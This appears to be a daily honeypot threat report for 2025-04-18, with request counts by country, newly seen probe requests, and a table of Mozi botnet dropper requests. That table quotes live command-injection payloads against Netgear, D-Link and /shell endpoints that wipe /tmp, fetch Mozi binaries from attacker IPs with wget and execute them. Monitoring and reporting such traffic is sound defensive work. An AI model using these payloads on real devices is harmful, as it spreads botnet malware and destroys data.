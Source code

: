 ```yaml
---
title: "Report: 2025-04-18 "
date: 2025-04-18
desciption: "Report: 2025-04-18" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-18 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 4 dropper URL(s).  

There are 39 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1606 requests were recorded during the day, originating from 4 different countries, with a peak of 392 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                        |
|:----------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 14.102.189.165  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                          |
| 139.5.0.142     | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0      |
| 103.206.103.184 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.206.103.184:59799/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 103.199.180.230 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://103.199.180.230:45172/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                           |
|----:|----------------------:|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 106 |                     3 | GET /.well-known/agent.json HTTP/1.1                                                                                                                                                                                                                                                                                                              |
| 232 |                     1 | GET /config/index?time=1744967097027290096 HTTP/1.1                                                                                                                                                                                                                                                                                               |
| 233 |                     1 | GET /config/index?time=1744965374806952242 HTTP/1.1                                                                                                                                                                                                                                                                                               |
| 234 |                     1 | POST /api/user/binLookup?time=1744962468230666878 HTTP/1.1                                                                                                                                                                                                                                                                                        |
| 306 |                     1 | \x12\x01\x00^\x00\x00\x01\x00\x00\x00$\x00\x06\x01\x00*\x00\x01\x02\x00+\x00\x01\x03\x00,\x00\x04\x04\x000\x00\x01\x05\x001\x00$\x06\x00U\x00\x01\xFF\x04\x07\x0C\xBC\x00\x00\x00\x00\x00\x00\x15\xD0\x00\xAF/\xA3h\xF6\x7F\x00\x00\x90\xF4\xBF\xA4p\x00\x00\x00\xE0\x81\xC8h\xF6\x7F\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01 |
| 307 |                     1 | \x00\x0E8F;\xFB\x8D\xAE\x8C\xCD\x9B\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                           |
| 349 |                     1 | POST /api/user/binLookup?time=1744969052257386757 HTTP/1.1                                                                                                                                                                                                                                                                                        |
| 350 |                     1 | GET /api/bin/440393?time=1744969051662221363 HTTP/1.1                                                                                                                                                                                                                                                                                             |
| 351 |                     1 | GET /config/index?time=1744967880456244302 HTTP/1.1                                                                                                                                                                                                                                                                                               |
| 352 |                     1 | GET /config/index?time=1744965641481793503 HTTP/1.1                                                                                                                                                                                                                                                                                               |
| 356 |                     1 | POST /api/user/binLookup?time=1744961909479266222 HTTP/1.1                                                                                                                                                                                                                                                                                        |
| 357 |                     1 | GET /api/bin/440393?time=1744961908962995955 HTTP/1.1                                                                                                                                                                                                                                                                                             |
| 361 |                     1 | POST /api/user/binLookup?time=1744954258804599153 HTTP/1.1                                                                                                                                                                                                                                                                                        |
| 362 |                     1 | GET /api/bin/440393?time=1744954258277572194 HTTP/1.1                                                                                                                                                                                                                                                                                             |
| 370 |                     1 | POST /api/user/binLookup?time=1744989300926169472 HTTP/1.1                                                                                                                                                                                                                                                                                        |
| 371 |                     1 | GET /api/bin/440393?time=1744989300414924616 HTTP/1.1                                                                                                                                                                                                                                                                                             |
| 372 |                     1 | GET /config/index?time=1744988199768680375 HTTP/1.1                                                                                                                                                                                                                                                                                               |
| 377 |                     1 | POST /api/user/binLookup?time=1744983103817730368 HTTP/1.1                                                                                                                                                                                                                                                                                        |
| 378 |                     1 | GET /api/bin/440393?time=1744983103303579949 HTTP/1.1                                                                                                                                                                                                                                                                                             |
| 379 |                     1 | GET /config/index?time=1744979531930928544 HTTP/1.1                                                                                                                                                                                                                                                                                               |
| 380 |                     1 | GET /NmapUpperCheck1744989965 HTTP/1.1                                                                                                                                                                                                                                                                                                            |
| 393 |                     1 | GET /blIE HTTP/1.1                                                                                                                                                                                                                                                                                                                                |
| 394 |                     1 | GET /nmaplowercheck1744989965 HTTP/1.1                                                                                                                                                                                                                                                                                                            |
| 408 |                     1 | GET /Nmap/folder/check1744989965 HTTP/1.1                                                                                                                                                                                                                                                                                                         |
| 479 |                     1 | POST /api/user/binLookup?time=1744968039523618468 HTTP/1.1                                                                                                                                                                                                                                                                                        |
| 480 |                     1 | GET /api/bin/440393?time=1744968038864619656 HTTP/1.1                                                                                                                                                                                                                                                                                             |
| 481 |                     1 | GET /config/index?time=1744967148178360507 HTTP/1.1                                                                                                                                                                                                                                                                                               |
| 482 |                     1 | GET /config/index?time=1744965446957789924 HTTP/1.1                                                                                                                                                                                                                                                                                               |
| 483 |                     1 | POST /api/user/binLookup?time=1744962780805968376 HTTP/1.1                                                                                                                                                                                                                                                                                        |
| 484 |                     1 | GET /api/bin/440393?time=1744962780410449261 HTTP/1.1                                                                                                                                                                                                                                                                                             |
| 485 |                     1 | GET /api/bin/440393?time=1744954989337907718 HTTP/1.1                                                                                                                                                                                                                                                                                             |
| 495 |                     1 | POST /api/user/binLookup?time=1744989013066329965 HTTP/1.1                                                                                                                                                                                                                                                                                        |
| 496 |                     1 | GET /api/bin/440393?time=1744989012643577876 HTTP/1.1                                                                                                                                                                                                                                                                                             |
| 498 |                     1 | GET /config/index?time=1744987813205266966 HTTP/1.1                                                                                                                                                                                                                                                                                               |
| 500 |                     1 | POST /api/user/binLookup?time=1744980935211061485 HTTP/1.1                                                                                                                                                                                                                                                                                        |
| 501 |                     1 | GET /api/bin/440393?time=1744980934804354971 HTTP/1.1                                                                                                                                                                                                                                                                                             |
| 502 |                     1 | POST /api/user/binLookup?time=1744967966225311071 HTTP/1.1                                                                                                                                                                                                                                                                                        |
| 503 |                     1 | GET /api/bin/440393?time=1744967965566904723 HTTP/1.1                                                                                                                                                                                                                                                                                             |
| 519 |                     1 | GET /api/bin/440393?time=1744955638793993480 HTTP/1.1                                                                                                                                                                                                                                                                                             |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   392 | US                 |
|  1 |                   199 | GB                 |
|  2 |                   182 | NL                 |
|  3 |                   115 | RU                 |
|  4 |                   115 | CN                 |
|  5 |                   112 | BG                 |
|  6 |                    97 | LT                 |
|  7 |                    76 | DE                 |
|  8 |                    71 | HK                 |
|  9 |                    55 | PL                 |
| 10 |                    42 | ID                 |
| 11 |                    16 | IN                 |
| 12 |                    13 | UA                 |
| 13 |                    13 | KR                 |
| 14 |                    12 | CA                 |
| 15 |                    11 | NO                 |
| 16 |                     9 | RO                 |
| 17 |                     9 | SC                 |
| 18 |                     8 | JP                 |
| 19 |                     7 | PT                 |
| 20 |                     6 | IT                 |
| 21 |                     6 | VN                 |
| 22 |                     5 | BE                 |
| 23 |                     4 | LA                 |
| 24 |                     4 | SG                 |
| 25 |                     3 | GH                 |
| 26 |                     3 | IL                 |
| 27 |                     3 | TH                 |
| 28 |                     3 | BR                 |
| 29 |                     2 | AO                 |
| 30 |                     2 | FR                 |
| 31 |                     2 | AZ                 |
| 32 |                     2 | AU                 |
| 33 |                     1 | CH                 |
| 34 |                     1 | PE                 |
| 35 |                     1 | AR                 |
| 36 |                     1 | EC                 |
| 37 |                     1 | GE                 |
| 38 |                     1 | SE                 |
| 39 |                     1 | TR                 |
